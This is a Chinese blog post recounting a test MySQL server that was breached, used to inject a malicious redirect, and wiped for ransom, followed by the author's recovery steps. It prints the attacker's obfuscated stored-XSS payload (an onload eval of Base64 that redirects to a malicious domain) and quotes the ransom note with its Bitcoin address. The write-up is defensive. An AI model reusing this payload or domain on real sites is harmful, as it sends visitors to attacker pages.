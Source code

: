 ```yaml
---
permalink: /course/运维｜MySQL 数据库被黑，心力交瘁
layout: coursedetail
title: 运维｜MySQL 数据库被黑，心力交瘁
categories: [Linux, Database]
description: MySQL 被黑了，至少要会做这些事来恢复数据。
keywords: Linux, MySQL, Database
mermaid: false
sequence: false
flow: false
mathjax: false
mindmap: false
mindmap2: false
---
```


前一阵有一个测试用的 MySQL 数据库被黑了，删库勒索的那种，这里记录一下事情经过，给自己也敲个警钟。

## 0x00 发现端倪

有一天，我在自测功能的时候，发现 APP 里展示的每条详情信息里都有一段乱码，只是有点奇怪，没有特别在意，后来调试网页的时候看到控制台有个报错，就顺手看了一眼，发现详情网页里有这样的东西：

![body-onload](/images/posts/database/body-onload.png)

找我的前端小伙伴讨论了下，最后本地调试了一番，发现是数据库里有个字段齐刷刷地被改成这个了：

```
<body/onload=eval(atob("d2luZG93LmxvY2F0aW9uLnJlcGxhY2UoImh0dHBzOi8vaHpyMGRtMjhtMTdjLmNvbS9lYm1zczBqcTc/a2V5PWM5MGEzMzYzMDEzYzVmY2FhZjhiZjVhOWE0ZTQwODZhIik="))>
```

atob 里面这一串是被 Base64 编码的 `window.location.replace("https://xxx.com/xxx")`，所以这段代码如果在网页里被正常加载，网页会被自动重定向到一个邪恶的网址：

![fake-security-tips](/images/posts/database/fake-security-tips.png)

是不是挺可怕？浏览网页的人如果警惕性不高，可能就中招了。这时我明白过来，我的测试环境这是被当成肉鸡了……

不过当时还是大意了，因为暂时没有想通它是怎样攻击和篡改，以为就是从页面注入的，就在逻辑里加了一些防护逻辑，把这个字段值都改回去然后就继续干活了。

## 0x01 库没人懵

到第二天，正欢乐地测着功能呢，突然打开啥页面都报数据库异常了，到库里一看，好家伙，所有表都没了，只剩一张 readme，里面写着：

> 以下数据库已被删除：xxx。 我们有完整的备份。 要恢复它，您必须向我们的比特币地址bc1q8erv6l4xrdqsfpwp92gm0mccur49pqn8l8epfg支付0.016比特币（BTC）。 如果您需要证明，请通过以下电子邮件与我们联系。 song4372@proton.me 。 任何与付款无关的邮件都将被忽略！

事情没我想象的简单！能把库里的表都删了，数据库和服务器的权限怕是都被拿到了。

仔细回想了前一段时间里发生的事情，推测过程可能是这样的：

- 最开始，有一天接收到阿里云的告警，提示 AK 泄漏，查看事件日志发现利用 AK 创建了一个 RAM 子账号，并赋予了高权限，当时我禁用了涉及的 AK，删除了被创建的子账号，但服务器应该已经被渗透了；
- 然后就是数据库字段被篡改，估计是一方面把服务器资源作为肉鸡继续扩散攻击其它人，另一方面作为诱饵，监控处理动作；
- 最后就是删库勒索了。

## 0x02 夺回权限

当务之急，是夺回权限，恢复数据。整个服务器和数据库的权限应该都不安全了，所以我先采取了以下措施：

- 检查服务器安全组规则，发现被加入了允许公网访问 3306 和所有端口的记录，将其删除；
- 检查服务器上的用户，发现多了一个用户 `guest`，uid 0，将其禁用；
- 检查进程，发现有用 `guest` 用户启动的 bash 进程和 mysql root 用户进程，将其 kill 掉；
- 修改服务器所有用户密码，检查用户权限；
- 修改数据库端口、重置所有用户和密码，只赋予用户必要权限；
- 更新服务器，修复已知安全漏洞；

用到的主要指令：

```sh
# 检查 Linux 服务器上的用户
cat /etc/passwd

# 修改用户密码
passwd <username>

# 检查进程
ps -ef 

# 杀掉进程
kill -9 <pid>

# 修改数据库端口
vim /etc/my.cnf

# mysql 删除用户，在 mysql 命令行执行
drop user '<user_name>'@'<scope>';
# mysql 创建用户，赋予权限，在 mysql 命令行执行
create user '<user_name>'@'<scope>' IDENTIFIED BY '<password>';
grant select,insert,update,delete on '<database_name>'.* to '<user_name>'@'<scope>';
```

## 0x03 修复数据

接下来就是修复数据了。

这个测试用的 MySQL 实例开启了 binlog，可惜被攻击者清除了，所以只能从备份恢复了。数据用定时任务 + mysqldump，每天备份一次，找到合适的备份，恢复数据。

*ps: 幸亏有备份，不然真是欲哭无泪了。*

```sh
# 解压备份文件
gunzip -c xxx.sql.gz > xxx.sql

# 恢复数据，在 mysql 命令行执行
use <database_name>;
souce /path/to/xxx.sql;
```

## 0x04 小结

以上的步骤的操作过程，远没有看起来那么简单，实际耗费了我挺长时间。

这次事件让我深刻地意识到，安全问题不容忽视，不管是服务器还是数据库，都要做好安全措施，不要给攻击者可乘之机。不然真到了被攻击，而又自行恢复无望的时候，那就叫天天不应，叫地地不灵了。退一万步说，即使有备份，也会耗费大量的时间和精力，影响正常的工作和生活。

安全任重道远，后续先做好以下方面：

- 访问控制，只赋予必要权限；
- 服务器镜像、数据库定期备份；
- 定期漏洞扫描与修复；
- 敏感数据加密；
- 操作审计；

最后，**警钟常鸣！**
